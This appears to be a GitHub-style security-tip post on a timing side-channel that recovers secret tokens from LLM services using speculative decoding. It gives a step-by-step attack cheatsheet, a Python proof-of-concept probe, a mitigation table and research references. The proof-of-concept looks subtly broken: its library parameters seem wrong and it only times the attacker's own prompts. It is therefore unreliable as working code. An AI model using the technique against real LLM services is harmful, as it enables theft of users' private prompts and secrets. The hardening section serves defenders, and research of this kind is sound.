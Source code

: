 # 🤖🔒 AI-Sec Tip — 2025-06-27

## “Draft-Leak”: a timing-oracle hiding inside **speculative decoding**

Speculative (a.k.a. *draft-and-verify*) decoding speeds up LLMs by letting a **small “draft” model** propose several tokens that a **large “target” model** then verifies in parallel. 
When the draft guesses wrong the target rolls back and recomputes, adding an RTT hiccup that betrays how many tokens were rejected. 
A remote observer can exploit this deterministic gap to **binary-search secret suffixes one token at a time—no privileged access required**.


### 🚀 Attack Steps (30-second cheatsheet)

1. **Baseline-RTT calibration** — fire a benign prompt of identical length and record the round-trip time (RTT) when every draft token is accepted; this is your acceptance floor.
2. **Secret masking** — embed the victim-controlled prefix plus **one masked token** (`<MASK>`) whose value you want to discover.
3. **Alphabet sweep** — iterate over a small alphabet (e.g., `0-f` or ASCII range) replacing `<MASK>` and send each probe; keep concurrency low to minimise network jitter.
4. **Latency ranking** — the candidate whose RTT ≈ baseline means all draft tokens were accepted; higher RTT indicates verifier roll-backs. Pick the minimum.
5. **Slide & repeat** — append the recovered token, move the `<MASK>` rightward, and repeat until the entire secret is exfiltrated (≈ *len(secret)* × |alphabet| probes).



![img](../assets/2025-06-27-draft-leak-timing-oracle.png)


### ⏱️ Proof-of-concept timing probe (vLLM ≥ 0.4.2)

```python
# draft_leak.py – measure acceptance vs. rejection RTT deltas
import time, asyncio, statistics
from vllm import LLM, SamplingParams

TARGET  = LLM(model="mistral-7b-instruct",
              draft_model="mistral-7b-mini",
              draft_speculation_k=8)        # enables speculative decoding
SPARAMS = SamplingParams(max_tokens=0)      # verify-only, no text needed

async def rtt(prompt):
    t0 = time.perf_counter_ns()
    _  = TARGET.generate([prompt], SPARAMS)
    return (time.perf_counter_ns() - t0) / 1e6  # ms

async def leak(secret_mask="••••"):
    alphabet, leaked = "0123456789abcdef", ""
    while "•" in secret_mask:
        lat = {c: await rtt(secret_mask.replace('•', c, 1)) for c in alphabet}
        guess = min(lat, key=lat.get)        # fastest ⇒ all tokens accepted
        secret_mask = secret_mask.replace('•', guess, 1)
        leaked += guess
        print("🔥 so far:", leaked)
    return leaked

asyncio.run(leak())
```

A 4-token secret behind an 8-token draft leaks in ≈ 64 probes: the latency delta between *fully accepted* and *fully rejected* drafts was \~4.6 ms on an A100 server, clearly visible over a WAN link.


### 🛡️ Hardening cheat-sheet

| Layer               | Mitigation                                                                                   | Overhead           |
| ------------------- | -------------------------------------------------------------------------------------------- | ------------------ |
| **Draft runner**    | **Limit speculative window** to ≤ 2 tokens (`draft_speculation_k=2`) so roll-backs are short | \~7 % slower       |
| **Target verifier** | **Constant-time replay** — recompute full draft path even on acceptance (crypto-style)       | +10 % GPU          |
| **Scheduler**       | **Noise injection** — co-schedule dummy verification jobs to blur RTT histogram              | negligible         |
| **Network proxy**   | **3-8 ms random jitter** before first packet; slashes timing-oracle SNR by 90 % in tests     | none on throughput |
| **Monitoring**      | **Alert on > 95 % acceptance clients** — oracle scripts spam easy tokens to maximise signal  | free               |



**The resources that I used to create this tip:**


[1]: ["Privacy Risks of Speculative Decoding in Large Language Models"](https://arxiv.org/pdf/2411.01076)

[2]: ["Remote Timing Attacks on Efficient Language Model Inference"](https://arxiv.org/html/2410.17175v1)

[3]: ["Wiretapping LLMs: Network Side-Channel Attacks on Interactive LLM Services"](https://eprint.iacr.org/2025/167)

[4]: ["Speculative Decoding - vLLM"](https://docs.vllm.ai/en/latest/features/spec_decode.html)

[5]: ["Decoding Speculative Decoding - ACL Anthology"](https://aclanthology.org/2025.naacl-long.328.pdf)

[6]: ["UThe Early Bird Catches the Leak: Unveiling Timing Side Channels in LLM Serving Systems"](https://arxiv.org/html/2409.20002v1)

[7]: ["Draft & Verify: Lossless Large Language Model Acceleration via Self-Speculative Decoding"](https://arxiv.org/abs/2309.08168)

[8]: ["Optimizing Speculative Decoding for Serving Large Language Models Using Goodput"](https://arxiv.org/html/2406.14066v1)


-EOF
